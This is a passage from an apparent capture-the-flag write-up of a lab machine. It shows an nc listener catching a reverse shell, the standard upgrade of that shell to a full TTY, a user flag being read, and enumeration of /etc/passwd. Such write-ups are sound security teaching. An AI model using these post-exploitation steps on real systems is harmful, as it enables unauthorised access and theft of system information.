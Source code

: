 ```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.18 50774
bash: cannot set terminal process group (1228): Inappropriate ioctl for device
bash: no job control in this shell
dash@usage:/var/www/html/project_admin/public/uploads/images$

```

I’ll use the [standard trick](https://www.youtube.com/watch?v=DqQE6DxqJg8) to upgrade my shell:

```

dash@usage:/var/www/html/project_admin/public/uploads/images$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
dash@usage:/var/www/html/project_admin/public/uploads/images$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            ‍reset
reset: unknown terminal type unknown
Terminal type? screen
dash@usage:/var/www/html/project_admin/public/uploads/images$ 

```

And grab `user.txt`:

```

dash@usage:~$ cat user.txt
18b4939c************************

```

## Shell as xander

### Enumeration

#### Users

There is one other user on the host with a home directory in `/home`:

```

dash@usage:/home$ ls
dash  xander

```

That matches the list of users with shells set in `passwd`:

```

dash@usage:~$ grep 'sh$' /etc/passwd
root:x:0:0:root:/root:/bin/bash
dash:x:1000:1000:dash:/home/dash:/bin/bash
xander:x:1001:1001::/home/xander:/bin/bash

```

